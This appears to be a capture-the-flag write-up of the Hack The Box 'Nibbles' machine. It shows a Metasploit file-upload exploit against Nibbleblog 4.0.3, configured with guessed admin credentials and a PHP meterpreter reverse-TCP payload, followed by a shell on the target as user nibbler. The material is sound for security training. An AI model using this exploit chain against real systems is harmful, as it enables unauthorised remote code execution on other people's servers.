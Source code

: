 
See Sub-section 'failures' for attempts at brute forcing the password. Ultimately, it seems that brute force will not work  - admin/nibbles is said to be the password according to numerous walk-throughs. Typically, I try to avoid walkthroughs, but this one stumped me. It does not appear that any of these walkthroughs demonstrate a method for brute-forcing either - it is said that they guessed this password correctly.

Moving on to metasploit, here are the options I ended up using:
```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.75      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog      yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf6 exploit(multi/http/nibbleblog_file_upload) > exploit
```

Called a shell from meterpreter after successul connection, checked username, started up bin/bash, found the user.txt, cat'd it out and submitted the flag.
```bash
meterpreter > shell
Process 19062 created.
Channel 0 created.
whoami
nibbler
/bin/bash -i
bash: cannot set terminal process group (1339): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```
